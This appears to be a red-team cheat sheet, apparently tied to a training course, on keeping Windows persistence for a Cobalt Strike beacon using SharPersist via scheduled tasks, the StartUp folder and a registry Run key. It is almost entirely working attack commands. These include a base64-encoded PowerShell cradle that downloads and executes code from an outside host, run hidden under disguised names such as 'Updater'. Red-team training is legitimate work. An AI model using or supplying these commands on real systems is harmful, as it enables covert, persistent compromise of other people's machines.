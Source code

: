 # Task Scheduler persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -n "Updater" -m add -o hourly
```

---

# StartUp Folder persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -f "UserEnvSetup" -m add
```

---

# Registry Autorun persistence

Create a http payload in cobalt strike

```bash
upload C:\Payloads\http_x64.exe
mv http_x64.exe Updater.exe
```

Create an AutoRun through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

---

# Hunting for COM Hijacks

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38149212-hunting-for-com-hijacks
```
